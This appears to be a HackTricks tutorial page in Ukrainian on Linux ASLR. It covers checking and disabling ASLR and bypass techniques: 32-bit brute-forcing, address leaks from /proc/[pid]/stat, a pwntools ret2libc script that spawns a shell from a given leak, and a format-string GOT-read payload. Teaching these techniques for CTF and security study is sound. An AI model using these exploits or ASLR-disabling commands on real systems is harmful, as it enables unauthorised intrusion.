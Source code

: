 # ASLR

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Основна інформація

**Address Space Layout Randomization (ASLR)** - це техніка безпеки, що використовується в операційних системах для **випадкового розміщення адрес пам'яті**, які використовуються системними та прикладними процесами. Це ускладнює зловмиснику передбачити місцезнаходження конкретних процесів і даних, таких як стек, купа та бібліотеки, що зменшує ризик певних типів експлойтів, зокрема переповнень буфера.

### **Перевірка статусу ASLR**

Щоб **перевірити** статус ASLR на системі Linux, ви можете прочитати значення з файлу `/proc/sys/kernel/randomize_va_space`. Значення, збережене в цьому файлі, визначає тип ASLR, що застосовується:

* **0**: Немає випадкового розміщення. Все статичне.
* **1**: Консервативне випадкове розміщення. Спільні бібліотеки, стек, mmap(), сторінка VDSO випадкові.
* **2**: Повне випадкове розміщення. На додаток до елементів, випадкових за консервативним випадковим розміщенням, пам'ять, керована через `brk()`, є випадковою.

Ви можете перевірити статус ASLR за допомогою наступної команди:
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **Вимкнення ASLR**

Щоб **вимкнути** ASLR, потрібно встановити значення `/proc/sys/kernel/randomize_va_space` на **0**. Вимкнення ASLR зазвичай не рекомендується поза сценаріями тестування або налагодження. Ось як ви можете його вимкнути:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
Ви також можете вимкнути ASLR для виконання за допомогою:
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **Увімкнення ASLR**

Щоб **увімкнути** ASLR, ви можете записати значення **2** у файл `/proc/sys/kernel/randomize_va_space`. Це зазвичай вимагає прав root. Увімкнення повної рандомізації можна зробити за допомогою наступної команди:
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **Стійкість при перезавантаженнях**

Зміни, внесені за допомогою команд `echo`, є тимчасовими і будуть скинуті при перезавантаженні. Щоб зробити зміни постійними, потрібно відредагувати файл `/etc/sysctl.conf` і додати або змінити наступний рядок:
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
Після редагування `/etc/sysctl.conf`, застосуйте зміни за допомогою:
```bash
sudo sysctl -p
```
Це забезпечить збереження ваших налаштувань ASLR після перезавантаження.

## **Обходи**

### 32-бітне брутфорсинг

PaX ділить адресний простір процесу на **3 групи**:

* **Код і дані** (ініціалізовані та неініціалізовані): `.text`, `.data` та `.bss` —> **16 біт** ентропії в змінній `delta_exec`. Ця змінна випадковим чином ініціалізується з кожним процесом і додається до початкових адрес.
* **Пам'ять**, виділена за допомогою `mmap()`, та **спільні бібліотеки** —> **16 біт**, названі `delta_mmap`.
* **Стек** —> **24 біти**, що називається `delta_stack`. Однак, фактично використовується **11 біт** (з 10-го до 20-го байта включно), вирівняних на **16 байт** —> Це призводить до **524,288 можливих реальних адрес стеку**.

Попередні дані стосуються 32-бітних систем, а зменшена фінальна ентропія дозволяє обійти ASLR, повторюючи виконання знову і знову, поки експлойт не завершиться успішно.

#### Ідеї для брутфорсингу:

* Якщо у вас є достатньо великий переповнення, щоб вмістити **великий NOP sled перед shellcode**, ви можете просто брутфорсити адреси в стеку, поки потік **не стрибне через якусь частину NOP sled**.
* Інший варіант для цього, якщо переповнення не таке велике, а експлойт можна запустити локально, — це **додати NOP sled і shellcode в змінну середовища**.
* Якщо експлойт локальний, ви можете спробувати брутфорсити базову адресу libc (корисно для 32-бітних систем):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* Якщо ви атакуєте віддалений сервер, ви можете спробувати **брутфорсити адресу функції `libc` `usleep`**, передаючи в якості аргументу 10 (наприклад). Якщо в якийсь момент **сервер відповідає на 10 секунд довше**, ви знайшли адресу цієї функції.

{% hint style="success" %}
В 64-бітних системах ентропія значно вища, і це неможливо.
{% endhint %}

### Локальна інформація (`/proc/[pid]/stat`)

Файл **`/proc/[pid]/stat`** процесу завжди доступний для читання всім і **містить цікаву** інформацію, таку як:

* **startcode** & **endcode**: Адреси вище і нижче з **TEXT** бінарного файлу
* **startstack**: Адреса початку **стеку**
* **start\_data** & **end\_data**: Адреси вище і нижче, де знаходиться **BSS**
* **kstkesp** & **kstkeip**: Поточні адреси **ESP** та **EIP**
* **arg\_start** & **arg\_end**: Адреси вище і нижче, де знаходяться **cli аргументи**.
* **env\_start** &**env\_end**: Адреси вище і нижче, де знаходяться **змінні середовища**.

Отже, якщо атакуючий знаходиться на тому ж комп'ютері, що й бінарний файл, який експлуатується, і цей бінарний файл не очікує переповнення з сирих аргументів, а з іншого **входу, який можна створити після читання цього файлу**. Атакуючий може **отримати деякі адреси з цього файлу та побудувати з них офсети для експлуатації**.

{% hint style="success" %}
Для отримання додаткової інформації про цей файл перегляньте [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html), шукаючи `/proc/pid/stat`
{% endhint %}

### Маючи leak

* **Виклик полягає в наданні leak**

Якщо вам надано leak (легкі CTF завдання), ви можете розрахувати офсети з нього (припустимо, наприклад, що ви знаєте точну версію libc, яка використовується в системі, яку ви експлуатуєте). Цей приклад експлуатації витягнуто з [**прикладу звідси**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) (перевірте цю сторінку для отримання додаткових деталей):
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
* **ret2plt**

Зловживаючи переповненням буфера, можна експлуатувати **ret2plt** для ексфільтрації адреси функції з libc. Перевірте:

{% content-ref url="ret2plt.md" %}
[ret2plt.md](ret2plt.md)
{% endcontent-ref %}

* **Format Strings Arbitrary Read**

Так само, як у ret2plt, якщо у вас є довільне читання через вразливість форматних рядків, можна ексфільтрувати адресу **функції libc** з GOT. Наступний [**приклад звідси**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
Ви можете знайти більше інформації про Format Strings arbitrary read у:

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

### Ret2ret & Ret2pop

Спробуйте обійти ASLR, зловживаючи адресами всередині стеку:

{% content-ref url="../../stack-overflow/ret2ret.md" %}
[ret2ret.md](../../stack-overflow/ret2ret.md)
{% endcontent-ref %}

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
